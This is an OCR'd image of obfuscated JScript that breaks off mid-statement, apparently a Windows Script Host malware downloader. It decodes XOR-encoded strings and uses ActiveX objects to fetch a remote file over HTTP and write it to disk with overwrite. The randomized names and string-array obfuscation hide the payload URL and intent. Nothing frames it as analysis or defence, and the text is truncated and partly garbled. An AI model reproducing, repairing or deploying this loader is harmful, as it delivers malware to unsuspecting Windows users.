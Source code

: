 ```
VAIVAIDIA24DEJUNH	101		var _0x49a11f=_0x3599;function _0x3599(_0x20601d,_0x4274a9){var _0xed654c=_0xed65();return _0x3599=function(_0x3599e2,_0x4c874e){_0x3599e2=_0x3599e2-0x6c;var _0x26664a=_0xed654c[_0x3599e2];return _0x26664a;},_0x3599(_0x20601d,_0x4274a9);}(function(_0x49cf32,_0x585f44){var _0x4b4871=_0x3599,_0x4f629f=_0x49cf32();while(!![]){try{var _0x54aa09=-parseInt(_0x4b4871(0x97))/0x1+-parseInt(_0x4b4871(0xb1))/0x2*(parseInt(_0x4b4871(0x7f))/0x3)+parseInt(_0x4b4871(0x98))/0x4*(-parseInt(_0x4b4871(0xac))/0x5)+parseInt(_0x4b4871(0x96))/0x6*(parseInt(_0x4b4871(0x8f))/0x7)+-parseInt(_0x4b4871(0x82))/0x8+-parseInt(_0x4b4871(0x7a))/0x9+parseInt(_0x4b4871(0xa0))/0xa*(parseInt(_0x4b4871(0x9e))/0xb);if(_0x54aa09===_0x585f44)break;else _0x4f629f['push'](_0x4f629f['shift']());}catch(_0x5dfe79){_0x4f629f['push'](_0x4f629f['shift']());}}}(_0xed65,0xcaa68));var _0x179b37=_0x4a8b;(function(_0x61fe90,_0x3d9dd5){var _0x52f4f4=_0x3599,_0x2bfb19=_0x4a8b,_0x5abe4a=_0x61fe90();while(!![]){try{var _0x376a55=parseInt(_0x2bfb19(0x218))/0x1+-parseInt(_0x2bfb19(0x1de))/0x2*(-parseInt(_0x2bfb19(0x1fa))/0x3)+parseInt(_0x2bfb19(0x1fc))/0x4*(parseInt(_0x2bfb19(0x1f9))/0x5)+parseInt(_0x2bfb19(0x20e))/0x6+parseInt(_0x2bfb19(0x1dc))/0x7*(parseInt(_0x2bfb19(0x1ea))/0x8)+-parseInt(_0x2bfb19(0x1ff))/0x9*(parseInt(_0x2bfb19(0x208))/0xa)+-parseInt(_0x2bfb19(0x1e8))/0xb;if(_0x376a55===_0x3d9dd5)break;else _0x5abe4a[_0x52f4f4(0xb0)](_0x5abe4a[_0x52f4f4(0x7e)]());}catch(_0x45dd2d){_0x5abe4a[_0x52f4f4(0xb0)](_0x5abe4a['shift']());}}}(_0xb6f0,0x44476));var _0x5b187b=_0x2da3;(function(_0x188961,_0x1b2304){var _0x54a27e=_0x3599,_0x5ef131=_0x4a8b,_0xab5c5e=_0x2da3,_0x452c32=_0x188961();while(!![]){try{var _0x235486=parseInt(_0xab5c5e(0xa1))/0x1+-parseInt(_0xab5c5e(0xb3))/0x2*(-parseInt(_0xab5c5e(0xba))/0x3)+parseInt(_0xab5c5e(0xcd))/0x4+-parseInt(_0xab5c5e(0x9d))/0x5+parseInt(_0xab5c5e(0xc2))/0x6*(-parseInt(_0xab5c5e(0xaf))/0x7)+parseInt(_0xab5c5e(0xcb))/0x8+parseInt(_0xab5c5e(0xa4))/0x9*(-parseInt(_0xab5c5e(0xa6))/0xa);if(_0x235486===_0x1b2304)break;else _0x452c32[_0x5ef131(0x1e6)](_0x452c32[_0x54a27e(0x7e)]());}catch(_0x25c123){_0x452c32[_0x5ef131(0x1e6)](_0x452c32[_0x5ef131(0x203)]());}}}(_0x2e30,0x7c19b));function GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x1630d6){var _0x242522=_0x4a8b,_0x4e69e0=_0x2da3;if(_0x1630d6=='')return;var _0x304268=xztuVd7U1SPEJIg6nUiU0fhFbsq9I5AAAjVMM6a36dOnhBL7eJ5FFhfE[_0x4e69e0(0xa9)],_0x42e586=-0x1,_0x32d869=0x0,_0x1cd30e='',_0x1408f0=0x0,_0x995a9=0x0,_0x385a05=0x0;_0x32d869=parseInt(_0x1630d6[_0x242522(0x20b)](0x0,0x2),0x10);for(_0x1408f0=0x2;_0x1408f0<_0x1630d6[_0x4e69e0(0xa9)];_0x1408f0+=0x2){_0x995a9=parseInt(_0x1630d6[_0x4e69e0(0xcf)](_0x1408f0,0x2),0x10),_0x42e586<_0x304268-0x1?_0x42e586++:_0x42e586=0x0,_0x385a05=_0x995a9^xztuVd7U1SPEJIg6nUiU0fhFbsq9I5AAAjVMM6a36dOnhBL7eJ5FFhfE[_0x4e69e0(0xbd)](_0x42e586),_0x385a05<=_0x32d869?_0x385a05=0xff+_0x385a05-_0x32d869:_0x385a05=_0x385a05-_0x32d869,_0x1cd30e+=String[_0x4e69e0(0xad)](_0x385a05),_0x32d869=_0x995a9;}return _0x1cd30e;}function t0ytlGKTYMbPE84LxFqFrqSWy1bMc2AV6T8gaXYNLXpV43BGoSpGPdI(_0x4dc38d){var _0x22b2e2=_0x3599,_0x486f37=_0x4a8b,_0x41865a=_0x2da3,_0x2d9211='',_0x24470d=_0x41865a(0xbb);for(var _0x42e222=0x0;_0x42e222<_0x4dc38d;_0x42e222++){_0x2d9211+=_0x24470d['charAt'](Math[_0x22b2e2(0x6c)](Math[_0x41865a(0xa2)]()*_0x24470d[_0x486f37(0x210)]));}return _0x2d9211;}function _0x2da3(_0x56f9ac,_0x2a8623){var _0x33eedd=_0x2e30();return _0x2da3=function(_0x39ce48,_0x4c2f06){_0x39ce48=_0x39ce48-0x97;var _0x16a909=_0x33eedd[_0x39ce48];return _0x16a909;},_0x2da3(_0x56f9ac,_0x2a8623);}function CdWB8pWOIMiCaOCzdFmmxvjlWIYif5jjp69mGcdAvheaKnEir8hLkVnS4Z(_0x3dad3e,_0x1f8605){var _0x715a57=_0x3599,_0x4afec3=_0x4a8b,_0x355fb2=_0x2da3,_0x226199,_0x6c94c9,_0x4d2560,_0x4fdd4f,_0x1346f9,_0x358144,_0x5e9253;try{_0x4fdd4f=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x355fb2(0x9b));var _0x1c641a=new ActiveXObject(_0x4fdd4f);_0x1c641a['SetTimeouts'](0x7530,0x7530,0x7530,0x1388),_0x358144=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x355fb2(0xc7)),void _0x1c641a[_0x355fb2(0xd1)](_0x358144,_0x3dad3e,![]),_0x1c641a[_0x355fb2(0xbc)]();if(_0x1c641a[_0x355fb2(0xbf)]==0x194)return![];;_0x1346f9=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x355fb2(0x99)),_0x226199=_0x1c641a[_0x1346f9];}catch(_0x5ed301){return![];};return _0x4d2560=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x355fb2(0xc4)),_0x5e9253=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x355fb2(0x9c)),_0x6c94c9=new ActiveXObject(_0x4d2560),_0x6c94c9[_0x5e9253]=0x1,_0x6c94c9[_0x355fb2(0xd1)](),_0x6c94c9[_0x4afec3(0x213)](_0x226199),_0x6c94c9[_0x355fb2(0xa3)](_0x1f8605,0x2),_0x6c94c9[_0x715a57(0x94)](),!![];}var xztuVd7U1SPEJIg6nUiU0fhFbsq9I5AAAjVMM6a36dOnhBL7eJ5FFhfE=_0x5b187b(0xc1),o9pC8Ho4LmBjLge0gd9kvcWZIxe9HKrFRwugn82ULsn3Q2i6VVrn8OxC6=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb6)),ARQU3ygoRIoioDX7WeQPfsv9J5KTlvx7KUZcS1W19N4L6pGPzq2w=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xa7)),jTbuWN8jBCVEHEJ94RdOVvo75lc4PwECpV5eN60jlgXAzsG22Jb7o6CM0x2=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0x9a)),tv0XAbBuwARftwzQ1vqRPoc0DPoLi7gbeLOgdssRPOpLvmNRx2uUOq=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0x97)),XWqrz6digeqneiYXxjOfGnb85bHwaCNu6JBhuZRHelJHertu8cceeu=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xa8)),hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb9)),WT1fM6T9y29aGKZxPx9gfp2Se8ayyJUM7URKedVzGIi1y1kZjkQ61ZXBWw=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb2)),Fa33kG2qcD71XUwNvHj2k016pDvSmPO6UdtkGSLkCeOU5jDmSEUy1DP=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xc6)),LptnkNA7nrdDpYn68W5xwTsSgLLv3dDnnoaLi9DeDqqOJJmnAvUrOi0lej=G
```